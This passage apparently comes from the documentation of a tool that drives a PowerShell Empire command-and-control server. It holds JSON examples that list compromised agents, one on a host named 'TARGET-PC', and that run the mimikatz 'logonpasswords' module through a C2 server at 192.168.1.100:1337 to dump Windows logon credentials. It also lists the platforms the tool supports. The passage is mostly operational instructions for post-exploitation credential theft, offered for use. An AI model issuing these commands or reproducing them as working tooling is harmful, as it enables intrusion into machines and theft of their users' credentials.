 ```json
        "arch": "x64",
        "os": "Windows 10",
        "last_seen": "2025-01-15T10:30:00Z",
        "status": "active"
      }
    ],
    "total_agents": 1
  }
}
```

## Cross-Platform Support
- **Windows**: Full support with native integration
- **Linux**: Complete functionality
- **macOS**: Full feature support
- **Android**: Mobile-optimized interface
- **iOS**: Native iOS integration

## Examples

### Example 1: Basic Agent Interaction
```bash
# List agents
{
  "action": "list_agents",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Result
{
  "success": true,
  "result": {
    "agents": [
      {
        "agent_id": "agent_001",
        "hostname": "TARGET-PC",
        "status": "active"
      }
    ]
  }
}
```

### Example 2: Module Execution
```bash
# Execute module
{
  "action": "execute_module",
  "agent_id": "agent_001",
  "module_name": "powershell/credentials/mimikatz/logonpasswords",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Result
{
  "success": true,
  "result": {
    "module": "powershell/credentials/mimikatz/logonpasswords",
    "output": "Mimikatz output here...",
    "execution_time": "00:00:05"
```